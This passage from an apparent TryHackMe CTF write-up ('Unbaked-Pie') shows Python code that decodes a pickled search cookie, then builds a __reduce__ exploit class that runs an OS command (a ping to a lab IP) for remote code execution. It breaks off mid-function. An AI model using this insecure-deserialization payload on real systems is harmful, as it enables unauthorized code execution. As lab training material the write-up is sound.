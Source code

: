 ```py
    logging.basicConfig(level=logging.INFO, format='[*] %(message)s')

    cookie = 'gASVCAAAAAAAAACMBHRlc3SULg=='

    serialization = Serialization(cookie)
    serialization.decodeSearchCookie()
    serialization.deserializeObject()

    serializeContent = 'test'
    serialization.serializeObject(serializeContent)

if __name__ == '__main__':
    main()
```

```shell
┌[root♥siunam]-(~/ctf/thm/ctf/Unbaked-Pie)-[2023.01.13|08:18:49]
└> python unpickle.py
[*] Base64 decoded: b'\x80\x04\x95\x08\x00\x00\x00\x00\x00\x00\x00\x8c\x04test\x94.'
[*] Deserialized: test
[*] Before serialized: test
[*] Serialized: b'\x80\x04\x95\x08\x00\x00\x00\x00\x00\x00\x00\x8c\x04test\x94.'
```

**Yep! The `search_cookie` indeed using Python library `pickle` to pickle (serialize).**

**Armed with above information, we can gain RCE (Remote Code Execution).**

**According to [HackTricks](https://book.hacktricks.xyz/pentesting-web/deserialization#pickle), we can use the `__reduce__` magic method to execute our OS command payload:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Unbaked-Pie/images/Pasted%20image%2020230113082344.png)

**Let's do that!**
```py
#!/usr/bin/env python3

import pickle
from base64 import b64decode, b64encode
import logging
import os
import requests

class Exploit():
    def __reduce__(self):
        return (os.system,("ping -c 4 10.9.0.253 ",))

class Serialization:
    def __init__(self, cookie):
        self.cookie = cookie

    def decodeSearchCookie(self):
        base64Decoded = b64decode(self.cookie)
        logging.info(f'Base64 decoded: {base64Decoded}')

        with open('cookie.txt', 'wb') as file:
            file.write(base64Decoded)

    def deserializeObject(self):
        with open('cookie.txt', 'rb') as file:
            deserializedObject = pickle.load(file)

        logging.info(f'Deserialized: {deserializedObject}')

    def serializeObject(self, serializeContent, url):
        with open('serialized.txt', 'wb') as file:
```